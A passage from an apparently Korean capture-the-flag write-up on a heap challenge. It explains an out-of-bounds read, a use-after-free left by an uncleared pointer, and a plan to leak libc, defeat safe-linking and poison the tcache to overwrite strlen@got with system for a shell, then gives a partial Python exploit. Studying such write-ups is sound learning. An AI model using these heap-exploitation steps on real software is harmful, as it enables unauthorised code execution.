 ```c
    printf("Line: ");
    scanf("%d", &idx);
    cur += 0x10ULL*idx;
    printf("%s", cur);
}
```
마찬가지로 show 메뉴에서도 할당된 청크로부터 임의 offset만큼 떨어진 주소에서 0x10만큼 read할 수 있는 OOB 취약점이 주어집니다.

```c
void delete()
{
    int idx;
    printf("Page: ");
    scanf("%d", &idx);
    if (idx < 0 || idx >= 20){
        puts("Invalid index");
        return;
    }
    if (pages[idx] == NULL){
        puts("Invalid index");
        return;
    }
    free(pages[idx]);
}
```
마지막으로 delete 메뉴에서는 할당된 청크를 해제하지만, pages 배열에서 클리어하지 않아 dangling pointer에 접근할 수 있습니다. 


##### Exploit Scenario
정리해보면 힙에서 자유롭게 relative-read/write를 할 수 있는 상황입니다. 거기에 더해 UAF가 가능하기 때문에 다음과 같은 익스플로잇 시나리오를 구성할 수 있습니다.

- unsorted bin에 청크를 넣고 show를 사용하여 main_arena(->libc base)를 릭
- tcache에 청크를 넣고 edit 기능으로 next를 strlen@plt.got-0x10으로 설정 (tcache poisoning)
- 이후 strlen@got-0x10에 청크를 할당받아 strlen@plt.got를 system으로 overwrite
- `printf("%s", "/bin/sh")`를 호출해서 쉘 획득 

이를 구현한 익스플로잇 코드는 다음과 같습니다.

##### ex.py
```python

def exploit(p):
    offset = 0x21a090 # strlen_evex@got

    for i in range(8):
        add(10+i,0x400,b"A"*0x10)
    for i in range(7): # fill tcache
        delete(11+i)
    delete(10) # free -> unsorted bin 
    show(10, 0) # main_arena leak
    libc_base = u64(p.recv(6).ljust(8, b"\x00")) - 0x21ace0
    log.info("libc_base: 0x{:x}".format(libc_base))
    system = libc_base + libc.sym["system"]
    add(0, 0x10, b"/bin/sh\x00"*2) # chunk for printf("%s", '/bin/sh')
    add(1, 0x10, b"A"*0x10)
    add(2, 0x10, b"A"*0x10)
    delete(1)
    delete(2)

    show(2, 0) # bypass safe linking
    leak = u64(p.recv(6).ljust(8, b"\x00"))
    heap_ptr = decrypt(leak)
    log.info("heap_ptr: 0x{:x}".format(heap_ptr))
    edit(2, 0, p64(encrypt(libc_base+offset))*2) # tcache poisoning
    add(3, 0x10, "AAAAA")
```